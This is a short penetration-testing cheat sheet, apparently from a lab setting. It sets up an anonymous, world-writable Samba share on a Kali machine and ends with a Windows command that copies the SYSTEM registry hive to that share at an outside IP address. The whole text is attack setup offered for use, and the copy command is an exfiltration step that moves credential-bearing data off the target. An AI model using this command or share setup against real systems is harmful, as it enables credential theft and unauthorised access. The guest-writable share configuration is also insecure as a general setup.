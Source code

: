 ## smb by kali
`vi /etc/samba/smb.conf`
```
[Public]
   path = /tmp/Public
   writable = yes
   guest ok = yes
   guest only = yes
   create mode = 0777
   directory mode = 077
   force user = nobody
```
```
mkdir /tmp/Public
chmod 777 /tmp/Public
service smbd restart
```
- example
  `cmd /c copy C:\SYSTEM \\10.10.14.20\Public\SYSTEM`
